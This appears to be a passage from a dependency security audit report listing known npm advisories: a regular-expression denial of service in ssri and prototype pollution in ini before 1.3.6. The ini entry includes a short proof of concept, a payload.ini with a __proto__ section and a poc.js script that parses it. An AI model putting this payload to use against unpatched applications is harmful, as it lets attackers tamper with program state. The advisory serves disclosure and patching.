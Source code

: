 ## Instances

[Instances](#high-vulnerability-21-instances)

## High Vulnerability 22
### Problem:  

npm `ssri` 5.2.2-6.0.1 and 7.0.0-8.0.0, processes SRIs using a regular expression which is vulnerable to a denial of service. Malicious SRIs could take an extremely long time to process, leading to denial of service. This issue only affects consumers using the strict option.

## Instances

[Instances](#high-vulnerability-22-instances)

## High Vulnerability 23
### Problem:  

### Overview
The `ini` npm package before version 1.3.6 has a Prototype Pollution vulnerability.

If an attacker submits a malicious INI file to an application that parses it with `ini.parse`, they will pollute the prototype on the application. This can be exploited further depending on the context.

### Patches

This has been patched in 1.3.6

### Steps to reproduce

payload.ini

```

[__proto__]
polluted = &#34;polluted&#34;

```


poc.js:

```

var fs = require(&#39;fs&#39;)
var ini = require(&#39;ini&#39;)

var parsed = ini.parse(fs.readFileSync(&#39;./payload.ini&#39;, &#39;utf-8&#39;))
console.log(parsed)
console.log(parsed.__proto__)
console.log(polluted)

```
